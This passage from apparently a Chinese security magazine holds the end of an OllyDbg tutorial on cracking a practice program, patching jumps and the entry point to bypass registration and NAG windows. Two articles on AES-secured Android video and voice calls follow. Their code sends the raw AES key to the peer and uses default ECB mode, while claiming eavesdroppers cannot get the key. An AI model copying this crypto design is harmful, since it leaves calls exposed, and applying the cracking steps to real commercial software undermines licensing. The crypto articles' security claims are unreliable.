

图 11

调试成功后，下面用相应指令修改，生成可执行文件，如图 12 所示。


↓



↓


↓



↓



图 12

#### 【小提示】调试技巧总结

- F2 下断点，按【Alt+b】打开断点编辑器，可编辑所有下过的断点，空格键可快速切换断点状态。
- 当位于某个 CALL 中，这时想返回到调用这个 CALL 的地方时，可以按【Ctrl+F9】快捷键执行返回功能。这样 OD 就会停在遇到的第一个返回命令（如 RET、RETF 或 IRET）。
- 如果跟进系统 DLL 提供的 API 函数中，此时想返回到应用程序领空里，可以按快捷键【Alt+F9】执行返回到用户代码命令。
- 所谓领空，实际上就是指在某一时刻，CPU 执行的指令所在的某段代码的所有者。
- 如 004013F7 这类地址一般是可执行文件领空，7C8114AB 这类大地址一般是系统 DLL 所在的地址空间。
- 程序通常读取文本框内容的字符串用的是以下两个函数：GetDlgItemTextA（GetDlgItemTextW）、GetWindowTextA（GetWindowTextW）。
- 一般我们要结合经验通过猜测的方式多尝试几遍设陷阱，找出相关的函数。
- 按【Ctrl+G】键打开跟随表达式的窗口。也可以通过“Ctrl+N”键打开应用程序的导入表（输入表），然后查看应用程序总共导入了哪些函数来以此推断需要在哪里挖坑下陷阱！
- 关于返回值，汇编代码的返回值约定是存放在 eax 这个寄存器里边的，如果 32 位的 eax 不够存放返回值，系统会将返回值放在内存某个位置并把该位置的地址放在 eax 返回。

## 实战案例：软件破解完全接触

##### 1. 破解逆向分析软件

reverse 就是逆向的意思，软件运行效果如图 13 所示。



图 13

第 1 步：进入之后，按 F8 定位到这个 jnz 位置。经过试验，发现如果跳转未实现的话，会直接弹出失败信息的 messagebox，如图 14 所示。



图 14

第 2 步：通过设置，将此处的 jnz 跳转实现。（方法：将零标志位“Z”改为 0）。接着往下走，此处的 jnz 同理也改为跳转实现，如图 15 所示。


图 15

凡是跳转到此地 “keyfile is not valid.sorry” 的跳转都要使之相反，否则依然失败。碰到 JL 的跳转，即是 S 标志位和 O 标志位不同，jl 指令会跳转。不让它跳转的话，就将二者修改为相同，任意改其中一个都行，如图 16 所示。



图 16

第 3 步：现在来到此处 jmp，发现已经连接到了跳转成功之处了！如图 17 所示。



图 17

第 4 步：下面添上我们需要的补丁，然后保存。需要改为跳转的，用 jmp 汇编进去；需要改为不跳转的，直接用 nop 汇编。保存修改后的文件，运行如图 18 所示。

图 18

##### 2. 去除讨厌的 NAG 窗口

nag 本意是“烦人的”意思，nag 窗口是软件设计者用来时不时提醒用户购买正版的警告窗口。软件设计者可能认为，当用户忍受不了试用版中的这些烦人窗口时，就会考虑购买正式版本。一般 nag 在程序启动或退出的时候弹出来，或者在程序运行的某个时刻突然蹦出来吓你一跳。今天的任务是用不同的几种方法来去除烦人的 NAG 窗口。一般情况下，一个注册后的软件是不会弹出 NAG 窗口的。所以，一般在程序启动的时候，它会有一段代码检查该程序是否已经被注册，我们可以先把这个程序的注册破解掉，NAG 窗口即会自动消失。

试验软件：RegisterMe.exe。

把程序运行一遍之后，我们发现程序有两个 NAG，一个是在程序界面启动前出现，另一个是在程序关闭后出现的。如图 19 所示。

图 19

- 1. 打开 OD 载入该文件，跳过第一个提示框的 4 种方法。如图 20 所示。  
图 20
  - （1）`je` 处汇编为 `jmp`，如图 21 所示。  
  图 21
  - （2）选中鼠标右键，在弹出的菜单中选择【二进制】→【用 NOP 填充】，如图 22 所示。  
  图 22
  - （3）将 `push 0` 改为 `push 1`（因为 1 是一个不存在的句柄，从而导致下面的 `MessageBox` 也不存在。也就是句柄无意义，子进程就消失），如图 23 所示。  
  图 23
  - （4）修改程序入口点。  

进入内存分布图，找到 PE 文件头，双击进入并找到 `AddressOfEntryPoint`。它在内存中的对应地址为 `4000E8`。回到 CPU 中，在数据模块中按下【Ctrl+G】，并填入 `4000E8`，将其本来的入口点值 `1000` 修改为 `1024`，如图 24 所示。  
图 24

步骤 2：回到 CPU 窗口中，在数据部分找到跟随地址 `00400E8`，如图 25 所示。  
图 25

步骤 3：对此处进行修改，将 `00` 改为 `24`。这样，程序的入口位置就由 `1000` 变为 `1024`，就跳过了第一个 NAG 弹出窗口 `MessageBox`，如图 26 所示。  
图 26

步骤 4：再处理之后的另一个 NAG 弹出窗口。可以使用 `nop` 汇编掉，也可以将 `push 0` 改为 `push 1` 进行修改。在这里，`GetModuleHandleA` 这个 API 函数用于获取程序的 `ImageBase`（基址）。这个程序的 `MessageBox` 的 `OwnerHandle`（父窗口句柄）为 `0`（NULL），我们可以将这个值改为一个不存在的值，例如 `1`，这样它就找不到，就不会被显示出来。

通过上面的操作，我们可以非常方便地达到调试目的。尤其是掌握相关指令后，多多实践、灵活运用，就可以达到灵活观察和控制目标软件的目的。

（完）

### Android 移动智能终端安全视频通信

文／图 袁琦 张帆（通信作者） 甘加升  
武汉轻工大学数学与计算机学院

当前正快速进入崭新的移动互联网时代，移动即时通信是厂商在移动互联网领域争夺的重点，但是与此同时，智能手机的安全性、私密性等问题逐渐引起大家的重视。本文实现了一个安全即时视频通信软件，其通过对即时通信的视频信息进行 AES 加密，保证了即时通信视频的安全性和私密性。

#### 总体设计

##### 1. 总体方案

Android 智能终端安全视频通信采用客户端对客户端架构，具体模块划分如图 1 所示。总的来说，通过 AES 密钥设定、加解密模块为用户提供安全保障；通过界面模块给用户带来更好的 UI 和使用体验。

##### 2. 客户端部分

- 1）通信模块

客户端通信模块实现视频的通信以及其他相关功能。该模块在发送数据时，从摄像头提取数据，将数据按照自定义的协议（由协议处理模块处理）进行封装，并利用 UDP 协议将数据传送给对方；在接收数据时，首先利用 UDP 协议通过 socket 通信接收数据，然后将数据按照自定义的协议进行解析，解析之后，将视频数据通过话筒/屏幕显示出来。

- 2）**AES 设置模块**

从客户端界面输入 AES 密钥，通过密钥获取比较，确定通话双方会话所用的 AES 密钥。

- 3）**加解密模块**

客户端加解密模块用于对传输的视频信息进行端对端的加解密。需要在保证传输信息机密性的同时考虑系统工作效率，为此，我们采用了 128 位的 AES 加密算法。在每次视频之前，视频双方都会通过密钥获取比较模块来确定 AES 密钥。

- 4）**UI 模块**

该模块为用户尽可能提供友好的人机交流 UI 界面，其中主要界面有：主界面、操作界面（视频操作功能）、呼叫界面（静音、免提、挂断功能）、接听界面（视频通信显示）。

#### 详细设计及实现

- 1. **详细操作流程**

用户在打开客户端进入主界面后，输入对方手机的 IP，然后开始进行视频邀请，当接收方同意后，自动开启密钥获取比较流程进行密钥比较，在密钥比较成功后可以进行视频通话。

- 2. **系统代码详细设计**

- 1）**输入 AES 密钥**

```java
private void openFirendPopup(final String name, final int photo, int flag) {
    View view = LayoutInflater.from(this).inflate(
            R.layout.aesput, null);

    Button sendase = (Button) view.findViewById(R.id.sendase);

    final AlertDialog alertDialog = new AlertDialog.Builder(this).setView(view).create();

    sendase.setOnClickListener(new View.OnClickListener() {
        public void onClick(View v) {
            if (!"".equals(getaes())) {
                Key_Deal.setFlag(Key_Deal.VIDEO_FLAG);
                MainHandler.sendRequestForVideo(name);
                MainHandler.startVideoActivity(name, photo);
                alertDialog.dismiss();
            }
        }
    });

    if (flag == 0) {
        sendase.setEnabled(false);
    }
}
```

```java
alertDialog.show();
}
```

在弹出的界面中，输入 AES 密钥，当输入框不为空时，点击发送按钮，则可以邀请对方开视频，然后界面消失。

- 2）输入 AES 并接受好友视频的邀请

```java
private void initClick() {
    accept.setOnClickListener(new View.OnClickListener() {

        public void onClick(View v) {

            if (flag == Key_Deal.VIDEO_FLAG && !"".equals(getaes())) {
                startVideoActivity();
                Key_Deal.setFlag(Key_Deal.VIDEO_FLAG);
                Video_Info.setIP(IP);
                Voice_Info.setIP(IP);
                Key_Info.setIP(IP);
            }

        }
    });
```

图 1 邀请好友视频界面　　图 2 接受好友视频界面

当点击发送按钮时，邀请好友开视频。当好友收到邀请后，输入 AES 密钥，点击接受，密钥比较线程则开始进行密钥比较，当双方输入的 AES 密钥相等时，则设定为此次双方进行视频的会话密钥。

- 3）密钥线程开始进行密钥获取及比较

```java
public static void beginKeyThread(String ip) {
    Video_Info.setIP(ip);
    Key_Info.setIP(ip);
    Key_Info sendInfo = new Key_Info();

    sendInfo.setHead(new byte[] { 0x00 });

    Key_Thread.send(sendInfo);
}
```

以上代码是为了打开用来进行密钥比较的线程，并且设置视频通信的 IP。

```java
public static void sendPart0fAesOne() {
    ase = FriendList_Activity.getaes();
    byte[] byase1 = MyKey.parseHexStr2Byte(ase);
    MyKey.setAesPassword1(byase1);
    MyKey.setAesKey(byase1);
    Key_Info key_Info = new Key_Info();
    byte[] head = new byte[] { 0x02 };
    key_Info.setHead(head);
    key_Info.setPart0fPassword(byase1);

    Key_Thread.send(key_Info);
}
private static void deal0x02(byte[] password1) {
    MyKey.setAesPassword1(password1);
    MainHandler.sendPart0fAesTwo();
    MyKey.initAESKey();
}
```

上面的代码首先获取 edit text 文本框输入的 AES 密钥并且保存，再将自己的 AES 发送给对方，线程会通过 `initAESKey()` 进行 AES 的比较。

```java
public static void sendPart0fAesTwo() {
    ase = BeCalled_Activity.getaes();
    byte[] byase2 = MyKey.parseHexStr2Byte(ase);
    MyKey.setAesPassword2(byase2);
    Key_Info key_Info = new Key_Info();
    byte[] head = new byte[] { 0x03 };
    key_Info.setHead(head);
    key_Info.setPart0fPassword(byase2);
    Key_Thread.send(key_Info);
}
private static void deal0x03(byte[] password2) {
    MyKey.setAesPassword2(password2);
    MyKey.initAESKey();
}
```

上面的代码首先获取 edit text 文本框输入的 AES 密钥并且保存，接着线程会通过 `initAESKey()` 进行 AES 的比较。

```java
public static void initAESKey() {
    if (aesPassword1.length == 0 && aesPassword2.length == 0)
        return;
    aes1 = parseByte2HexStr(aesPassword1);
    aes2 = parseByte2HexStr(aesPassword2);

    if (aes1.equals(aes2)) {
        aesKey = parseHexStr2Byte(aes1);
    }
}
```

密钥线程比较两个 AES 密钥，如果相等就设置为通信的密钥，接着通过 `startVideoActivity()` 打开视频，双方进行通信。

```java
public static String parseByte2HexStr(byte buf[]) {
    StringBuffer sb = new StringBuffer();
    for (int i = 0; i < buf.length; i++) {
        String hex = Integer.toHexString(buf[i] & 0xFF);
        if (hex.length() == 1)
            hex = '0' + hex;
        sb.append(hex.toUpperCase());
    }
    return sb.toString();
}
```

以上代码是将二进制转换为 16 进制，也就是将字节转换为 string 类型。

```java
public static byte[] parseHexStr2Byte(String hexStr) {
    if (hexStr.length() < 1)
        return null;
    byte[] result = new byte[hexStr.length() / 2];
    for (int i = 0; i < hexStr.length() / 2; i++) {
        int high = Integer.parseInt(hexStr.substring(i * 2, i * 2 + 1), 16);
        int low = Integer.parseInt(hexStr.substring(i * 2 + 1, i * 2 + 2), 16);
        result[i] = (byte) (high * 16 + low);
    }
    return result;
}
```

以上代码是将 16 进制转换为二进制，也就是将 string 类型转换为字节型。通信所需要的 AES 密钥是 byte 型，所以需要将从 edit text 中获取的 string 型密钥转换为 byte，然后为通信进行加密。

- 4）AES 加密

```java
public static byte[] AESEncrypt(byte[] byteContent) {
    if (aesKey == null)
        return null;
    try {
        SecretKeySpec key = new SecretKeySpec(aesKey, "AES");
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.ENCRYPT_MODE, key);
        byte[] result = cipher.doFinal(byteContent);
        return result;
    } catch (NoSuchAlgorithmException e) {
        e.printStackTrace();
    } catch (NoSuchPaddingException e) {
        e.printStackTrace();
    } catch (InvalidKeyException e) {
        e.printStackTrace();
    } catch (IllegalBlockSizeException e) {
        e.printStackTrace();
    } catch (BadPaddingException e) {
        e.printStackTrace();
    }
    return null;
}
```

此段代码是 AES 加密。首先创建密码器，接着初始化，然后对将要发送出去的、要加密的视频数据流内容进行加密。

- 5）AES 解密

```java
public static byte[] AESdecrypt(byte[] content) {
    if(aesKey == null)
        return null;
    try {
        byte[] enCodeFormat = aesKey;
        SecretKeySpec key = new SecretKeySpec(enCodeFormat, "AES");
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.DECRYPT_MODE, key);
        byte[] result = cipher.doFinal(content);
        return result;
    } catch (NoSuchAlgorithmException e) {
```

```java
e.printStackTrace();
    } catch (NoSuchPaddingException e) {
        e.printStackTrace();
    } catch (InvalidKeyException e) {
        e.printStackTrace();
    } catch (IllegalBlockSizeException e) {
        e.printStackTrace();
    } catch (BadPaddingException e) {
        e.printStackTrace();
    }

return null;
}
```

此段代码是 AES 解密。先创建密码器，接着初始化，然后对从对方发送过来要解密的视频数据流内容进行解密。

##### 3. 视频加密通信测试

- 1）在正常“保密视频”通信的情况下，发送方使用视频之前确定的 AES 密钥进行加密，接收方使用 AES 密钥对视频数据包进行解密，可见双方能够正常进行视频通信，如图 3 所示。
- 2）在“攻击者截获视频数据包”的情况下，由于攻击者无法获取 AES 密钥，因而无法对视频数据包进行解密。攻击者所看到的视频信息只是毫无意义的乱码，如图 4 所示。





图 3 发送方接收图像显示

图 4 接收方接收图像显示

### Android 移动智能终端安全语音通信

文/图 甘加升　张帆（通信作者）　袁琦  
武汉轻工大学数学与计算机学院

当前智能手机功能越来越强大，但由此带来的安全性和通信隐私性问题也日渐显露。随着近年来手机窃听事件频发，用户语音通信的机密性需求日益提升。因此，本文设计并实现了一套机制，使得通信双方在不可信的互联网网络环境下能够进行安全的即时语音通信。

本文所述的系统由五个部分构成：

- 1. 输入 AES 密钥。用户在屏幕输入保密通信所需要的 AES 密钥，在后续的语音通信中，AES 密钥将用于加密语音通信信息。
- 2. 发起通信请求。某一个通信方 A 对另一通信方 B 发起通信请求，如果 B 同意进行通信，则接受对方请求。
- 3. 确定 AES 密钥。通信接收方 B 在收到通信方 A 的请求后，输入 AES 密钥，点击接受后开启密钥确定线程。通信双方所输 AES 密钥相同时通信连接建立成功，否则失败。
- 4. 通信双方数据的加解密。
- 5. 传输。

以下是该系统的详细设计过程。

#### 1. 输入 AES 密钥

通信双方在建立连接之前，通信请求方在界面上输入 AES 密钥，发送给通信接收方，同时开启语音通信线程。主要代码如下：

```java
private void openFriendPopup(final String name, final int photo, int flag) {
    View view = LayoutInflater.from(this).inflate(
            R.layout.aesput, null);
    Button sendase = (Button) view
            .findViewById(R.id.sendase);
    final AlertDialog alertDialog = new AlertDialog.Builder(this).setView(
            view).create();
    sendase.setOnClickListener(new View.OnClickListener() {
        public void onClick(View v) {
            Key_Deal.setFlag(Key_Deal.VOICE_FLAG);
            MainHandler.SendRequestForCall(name);
            MainHandler.startVoiceActivity(name, photo);
            alertDialog.dismiss();
        }
    });
    if (flag == 0) {
        sendase.setEnabled(false);
    }
    alertDialog.show();
}
```

#### Android 远程监控技术

输入 AES 密钥的实现过程中，通信请求方在弹出窗口中输入 AES 密钥，点击发送语音按钮，通过主线程的 `MainHandler` 实例向好友发送语音请求，并使用 `startVoiceActivity()` 开启语音通信线程。

#### 2. 发起通信请求

通信请求方发起通信请求，通信接收方在接收到请求方的语音邀请时，主动输入 AES 密钥，点击接受，并开启语音通信线程，同时将请求方的密钥与自己主动输入的密钥进行比较。主要代码如下：

```java
private void initClick() {
    accept.setOnClickListener(new View.OnClickListener() {
        public void onClick(View v) {
            if(flag == Key_Deal.VOICE_FLAG && !"".equals(getaes())) {
                startVoiceActivity();
                Key_Deal.setFlag(Key_Deal.VOICE_FLAG);
                Voice_Info.setIP(IP);
                Key_Info.setIP(IP);
            }
        }
    });
}
```

发起通信请求的实现过程中，使用 `startVoiceActivity()` 开启语音通信线程，同时设置 IP，为后续语音信息的发送提供 IP 参数。图 1 为语音通信请求界面，图 2 为语音通信接收界面。





图 1 语音通信请求

图 2 语音通信接收

#### 3. 确定 AES 密钥

#### Android 远程监控技术

```java
public static void startKeyInit() {
    byte[] publicKey = MyKey.getPublicKey();
    byte[] s_c = MyKey.getS_c();
    Key_Info key_Info = new Key_Info();
    byte[] head = new byte[] { 0x00 };
    key_Info.setHead(head);
    key_Info.setPublicKey(publicKey);
    key_Info.setS_c(s_c);
    Key_Thread.send(key_Info);
}
```

以上代码是开始密钥确定线程过程。密钥确定过程首先获取通信方的公钥和 s_c 验证，并设置为 `key_Info` 中的公钥和 s_c 验证，最后发送出去。

```java
public static void sendPartOfAesOne() {
    ase = FriendList_Activity.getaes();
    byte[] byase1 = MyKey.parseHexStr2Byte(ase);
    MyKey.setAesPassword1(byase1);
    MyKey.setAesKey(byase1);
    Key_Info key_Info = new Key_Info();
    byte[] head = new byte[] { 0x02 };
    key_Info.setHead(head);
    key_Info.setPartOfPassword(byase1);
    Key_Thread.send(key_Info);
}
```

以上代码是获取发送邀请方 AES。取出界面编辑框中的 AES 密钥并将其转化为二进制存入二进制数组中，通过 `MyKey` 实例将获取的 AES 密钥设置为 `AesPassword1`，将获取的 AES 密钥存入 `key_Info` 并发送出去。

```java
public static void sendPartOfAesTwo() {
    ase = BeCalled_Activity.getaes();
    byte[] byase2 = MyKey.parseHexStr2Byte(ase);
    MyKey.setAesPassword2(byase2);
    Key_Info key_Info = new Key_Info();
    byte[] head = new byte[] { 0x03 };
    key_Info.setHead(head);
    key_Info.setPartOfPassword(byase2);
    Key_Thread.send(key_Info);
}
```

以上代码是发送接收方获取 AES 过程。基本实现过程与获取发送邀请方 AES 过程一致。

#### Android 远程监控技术

```java
public static void initAESKey() {
    if(aesPassword1.length == 0 && aesPassword2.length == 0)
        return;
    aes1 = parseByte2HexStr(aesPassword1);
    aes2 = parseByte2HexStr(aesPassword2);
    if(aes1.equals(aes2)){
        aesKey = parseHexStr2Byte(aes1);
    }
}
```

以上代码是通信双方的密钥比较过程。通信请求方将发送的密钥保存并设置为 `aesPassword1`，通信接收方将发送的密钥保存并设置为 `aesPassword2`，然后将双方通信密钥从二进制转化为十六进制并进行比较，两者相同则设置为最终双方的通信密钥。

系统设计中的确定 AES 密钥过程是整个系统的核心部分。该部分包括开始密钥确定线程、获取发送邀请方 AES、获取发送接收方 AES、比较两个 AES 并确定通信 AES 四个过程。通信连接成功如图 3 所示的语音通信界面。


图 3 语音通信

#### 4. 通信双方数据的加解密

```java
public static byte[] AESencrypt(byte[] byteContent) {
    if(aesKey == null)
        return null;
    try {
```

#### Android 远程监控技术

```java
SecretKeySpec key = new SecretKeySpec(aesKey, "AES");
Cipher cipher = Cipher.getInstance("AES");
cipher.init(Cipher.ENCRYPT_MODE, key);
byte[] result = cipher.doFinal(byteContent);
return result;
} catch (NoSuchAlgorithmException e) {
    e.printStackTrace();
} catch (NoSuchPaddingException e) {
    e.printStackTrace();
} catch (InvalidKeyException e) {
    e.printStackTrace();
} catch (IllegalBlockSizeException e) {
    e.printStackTrace();
} catch (BadPaddingException e) {
    e.printStackTrace();
}
return null;
}
```

以上代码是数据加密过程。首先创建密码器，接着以加密模式初始化，然后对将要发送出去的语音数据流内容进行加密。

```java
public static byte[] AESdecrypt(byte[] content) {
    if (aesKey == null)
        return null;
    try {
        byte[] enCodeFormat = aesKey;
        SecretKeySpec key = new SecretKeySpec(enCodeFormat, "AES");
        Cipher cipher = Cipher.getInstance("AES");
        cipher.init(Cipher.DECRYPT_MODE, key);
        byte[] result = cipher.doFinal(content);
        return result;
    } catch (NoSuchAlgorithmException e) {
        e.printStackTrace();
    } catch (NoSuchPaddingException e) {
        e.printStackTrace();
    } catch (InvalidKeyException e) {
        e.printStackTrace();
    } catch (IllegalBlockSizeException e) {
        e.printStackTrace();
    } catch (BadPaddingException e) {
        e.printStackTrace();
    }
    return null;
}
```

#### Android 远程监控技术

```java
}
```

以上代码是数据的解密过程。首先创建密码器，接着以解密模式初始化，然后对接收到的语音数据流内容进行解密。通信双方的数据传输都需要加密过程，接收到的数据都需要解密过程。

#### 5. 传输

```java
class SendRunnable implements Runnable{
    public void run () {
        try {
            System.out.println("Voice : Start Send Thread !");
            Voice_Info voiceInfo = null;
            datagramSocket  =  new DatagramSocket(Voice_Constant.SEND_PORT);

            while(runing) {
                if (Voice_Buffer.SendBuffereIsEmpty()) {
                    Thread.sleep(50);
                    continue;
                }
                voiceInfo = Voice_Buffer.getSendInfo();
                if (voiceInfo == null)
                    continue;
                inetAddress = InetAddress.getByName(voiceInfo.getIP());
                byte[] data = voiceInfo.getBytes();
                datagramPacket = new DatagramPacket(data, data.length,
                        inetAddress, Voice_Constant.RECEIVE_PORT);
                if (datagramSocket != null)
                    datagramSocket.send(datagramPacket);
            }
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            if (datagramSocket != null)
                datagramSocket.close();
            datagramSocket = null;
            datagramPacket = null;
            inetAddress = null;
            System.out.println("Voice : Stop Send Thread !");
        }
    }
}
```

